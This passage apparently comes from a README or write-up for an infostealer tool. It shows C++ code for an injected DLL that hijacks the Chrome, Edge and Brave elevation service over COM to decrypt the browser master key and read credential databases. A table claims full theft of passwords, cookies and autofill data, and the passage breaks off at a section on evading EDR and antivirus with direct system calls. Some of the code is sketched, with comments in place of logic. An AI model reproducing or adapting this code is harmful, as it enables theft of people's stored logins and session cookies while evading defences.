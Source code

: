 ```cpp
    // Decrypts credential databases with obtained key
    
    return true;
}
```

#### COM Hijacking Technique

The injected `BrowseCrypt.dll` exploits browsers' own privilege elevation mechanisms:

```cpp
// Inside target browser process address space
bool MasterKeyDecryptor::HijackElevationService() {
    CoInitialize(nullptr);
    
    // Chrome: IOriginalBaseElevator
    // Edge: IEdgeElevatorFinal  
    // Brave: Similar interface
    
    IOriginalBaseElevator* elevator;
    HRESULT hr = CoCreateInstance(CLSID_GoogleUpdate, 
                                  nullptr, 
                                  CLSCTX_LOCAL_SERVER,
                                  IID_IOriginalBaseElevator, 
                                  (void**)&elevator);
    
    // Request decryption using browser's own trusted component
    BSTR encryptedKey = ReadMasterKeyFromLocalState();
    BSTR decryptedKey;
    elevator->DecryptData(encryptedKey, &decryptedKey);
    
    // Now possess plaintext AES-256 master key
    return ProcessCredentialDatabases(decryptedKey);
}
```

### Supported Browsers and Extraction Results

| Browser | Method | Credentials | Cookies | Autofill |
|---------|--------|-------------|---------|----------|
| Chrome | COM Hijacking | ✅ Full | ✅ Full | ✅ Full |
| Edge | COM Hijacking | ✅ Full | ✅ Full | ✅ Full |
| Brave | COM Hijacking | ✅ Full | ✅ Full | ✅ Full |
| Firefox | Direct Extraction | ✅ Partial | ✅ Full | ❌ Limited |

## 🥷 EDR/AV Evasion: Direct System Calls

### The User-Mode Hooking Problem
